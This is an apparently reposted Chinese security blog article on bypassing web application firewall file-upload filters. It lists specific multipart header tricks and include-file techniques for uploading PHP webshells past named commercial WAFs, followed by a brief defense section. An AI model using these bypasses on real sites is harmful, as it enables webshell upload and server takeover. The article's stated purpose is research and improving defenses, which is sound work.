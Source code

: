 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Mgo6Gvel9V0mxpsNIq1GlQ)

本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担!

今天就聊聊关于上传绕过 WAF 的姿势，WAF(Web Application Firewall) 简单的来说就是执行一系列针对 HTTP/HTTPS 的安全策略来专门为 Web 应用提供保护的一款产品。上传绕过不算什么技术了，正所谓未知防，焉知攻，先来了解一下网站的防御措施吧！

一、Bypass Waf
------------

#### 1. 一般开发人员防御策略

客户端 javascript 校验 (一般只校验后缀名) 服务端校验 1 > 文件头 content-type 字段校验（image/gif）2 > 文件内容头校验（GIF89a）3 > 后缀名黑名单校验 4 > 后缀名白名单校验 5 > 自定义正则校验 6>WAF 设备校验（根据不同的 WAF 产品而定）

#### 2.Bypass

###### 2.1 有些 waf 不会防 asp/php/jsp 后缀的文件，但是他会检测里面的内容

eg1:  
1. 先上传一个内容为木马的 txt 后缀文件，因为后缀名的关系没有检验内容

2. 然后再上传一个. php 的文件，内容为

此时，这个 php 文件就会去引用 txt 文件的内容，从而绕过校验，下面列举包含的语法：

```
PHP
<?php Include("上传的txt文件路径");?>
ASP
<!--#include file="上传的txt文件路径" -->
JSP
<jsp:include page="上传的txt文件路径"/>
or
<%@include file="上传的txt文件路径"%>
```

访问 shell.php 就可以执行 php 代码  
尝试修改压缩文件后缀为 zip、phar、rar 发现都是可以的。

###### 2.2 WTS-WAF Bypass

```
Content-Disposition: form-data; name=“up_picture”; filename=“xss.php”
```

###### 2.3 Baidu cloud Bypass

发现百度云目前正在拦截后缀，百度云过上传还跟 <?php 前面是否有代码还有很大关系，在这里就不要废话了，大家自己去研究一下吧。  
Content-Disposition: form-data; name=“up_picture”; filename=“xss.jpg .Php”

百度云绕过就简单的很多很多，在对文件名大小写上面没有检测 php 是过了的，Php 就能过，或者 PHP，一句话自己合成图片马用 Xise 连接即可。

###### 2.4 阿里云 WAF

```
Content-Disposition: form-data; name=“img_crop_file”; fileContent-Type: image/jpeg
```

Bypass:  

```
Content-Disposition: form-data; name=“img_crop_file”; filename=“1.php”
```

Note: 你看的没错，删除 Content-Type: image/jpeg 即可绕过。  

###### 2.5 安全狗上传 Bypass(最新版不可绕)

```
Content-Disposition: form-data; name=“image”; fileContent-Type: image/png
```

Bypass:  

```
Content-Disposition: form-data; name=“image”; filename="085733uykwusqcs8vw8wky.png
```

C.php"  
Note: 删掉 ontent-Type: image/jpeg 只留下 c，将. php 加 c 后面即可，但是要注意额，双引号要跟着 c.php". 原理就不多说了，自己研究。

###### 2.6 云锁上传 Bypass

```
Content-Disposition: form-data; name=“up_picture”; filename=“xss.php”
```

二、Defense
---------

详细说一下 Type 绕过防御机制，其他的防御机制自己可以下去研究.

###### 1. 目录设为不可执行:

只要 web 容器无法解析该目录下的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响，所以此点至关重要。

###### 2. 判断文件类型:

判断文件类型时，应结合 MIME-Type、后缀检查等方式、推荐使用白名单的方式。

###### 3. 用随机数改写:

文件上传如果要执行代码，则需要用户能访问到这个文件。在某些环境下，用户能上传，但是不能访问。

三、Summary
---------

研究 WAF 的绕过手段，是为了更好的提升 WAF 的防御能力。在研究突破的过程中，不要只是仅仅停留在正则表达式、基本漏洞原理，需要对涉及并深入更多的领域，例如 HTTP 协议理解和 PHP、Tomcat 对 HTTP 协议源码分析，MySQL 词法分析，和 Fuzz 的思路等。在此过程中，会有许多乐趣，也会有各方面能力的提升。

```
作者：南伯基尼
来源：https://blog.csdn.net/weixin_44203158/article/details/107213031
```

**推荐阅读**[**![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyIDG0WicDG27ztM2s7iaVSWKiaPdxYic8tYjCatQzf9FicdZiar5r7f7OgcbY4jFaTTQ3HibkFZIWEzrsGg/640?wx_fmt=png)**](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247497658&idx=1&sn=87d6b678c3dab4baeeb28ca81276d333&chksm=9acd2725adbaae334bd016bf907ed651a1b1529279a04cb45aad101025d2f09a4637e8810072&scene=21#wechat_redirect)

```
扫描关注乌雲安全


  
   
     
           
乌雲安全
           
乌雲安全，致力于红队攻防实战、内网渗透、代码审计、社工、安卓逆向、CTF比赛技巧、安全运维等技术干货分享，并预警最新漏洞，定期分享常用渗透工具、教程等资源。
           
66篇原创内容
         
   
   
公众号
 
 

觉得不错点个“赞”、“在看”哦
```